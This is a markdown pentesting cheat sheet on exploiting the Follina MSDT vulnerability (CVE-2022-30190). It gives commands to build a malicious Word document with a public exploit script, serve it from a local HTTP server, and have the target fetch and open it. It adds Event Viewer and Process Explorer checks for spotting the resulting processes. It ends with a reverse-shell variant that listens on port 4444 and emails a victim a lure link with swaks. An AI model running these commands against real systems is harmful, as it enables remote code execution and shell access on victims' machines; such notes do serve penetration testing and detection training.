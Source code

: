 ```yaml
---
title: Microsoft Word Pentesting
description: 
tags:
    - Windows
refs:
date: 2022-11-20
draft: false
---
```


## Follina MSDT (CVE-2022-30190)

Microsoft Support Diagnostic Tool (MSDT) is vulnerable with Follina.

### 1. Download the Payload in Local Machine

Clone the payload from [msdt-follina](https://github.com/JohnHammond/msdt-follina).

### 2. Create the Maldoc in Local Machine

```sh
# -i: interface name
python3 follina.py -i eth0
```

Then a new maldoc named “follina.doc” will be created in the current directory.  
Now you’ve started the web server.

### 3. Open Another Web Server in Local Machine

Open another terminal  and move to the msdt-follina directory,  then start web server to transfer the maldoc to target machine.

```sh
python3 -m http.server 3456
```

### 4. Transfer the Maldoc to Target Machine

In target Windows machine, open powershell and execute the following command.

```sh
cd ~/Desktop
curl http://<local-ip>:3456/follina.doc -o follina.docx
```

### 5. Open the Maldoc

In target machine, open the maldoc you transfered.

```sh
.\follina.docx
```

### 6. Check the Process Explorer of Sysinternals in Target Machine

Find interesting processes in the Process Explorer.

### 7. Check the Event Viewer in Target Machine to Detect Suspicious Processes

1. Go to "View" -> "Use Quick Filter"

2. A search bar should appear on top of the logs. Choose “Find Event ID” on the right of the search bar, and enter “4688”(it means that “a new process has been created”) in a search bar.

3. Open the Find (Ctrl+F) and enter “winword”. Then check the contents of results.

4. Go to Options → Advanced Options

- **Reverse Shell via SMTP**

    If the target uses SMTP, you may be able to reverse shell using it.  
    Start the exploit to wait for reverse connections.

    ```sh
    sudo python3 follina.py -i tun0 -p 80 -r 4444
    ```

    Send e-mail to the target machine via SMTP using [swaks](https://github.com/jetmore/swaks).

    ```sh
    swaks --to victim@vulnerable.com --from test@test --server mail.vulnerable.com --body "http://<local-ip>/"
    ```
